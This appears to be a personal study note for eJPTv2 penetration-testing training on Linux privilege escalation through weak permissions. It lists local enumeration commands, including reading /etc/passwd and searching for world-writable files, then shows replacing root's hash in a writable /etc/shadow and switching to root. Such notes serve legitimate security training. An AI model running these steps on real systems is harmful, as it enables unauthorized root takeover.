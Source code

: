 ```yaml
---
up: "[[4. ARCHIVES/eJPTv2/Host & Network Penetration Testing/Post-Exploitation/Linux Privilege Escalation/Linux Privilege Escalation|Linux Privilege Escalation]]"
---
```


# Weak Permissions

- Identify common Linux local enumeration with [[LinuxEnum]]

## Demonstration

```bash
# simple local enum
whoami
cat /etc/passwd
groups
groups <user>
find / -not -type l -perm -o+w 2>/dev/null
# /etc/shadow is writable
openssl passwd -1 -salt abc <new_password>
# edit /etc/shadow
root:<hash>:[...]
su 
```
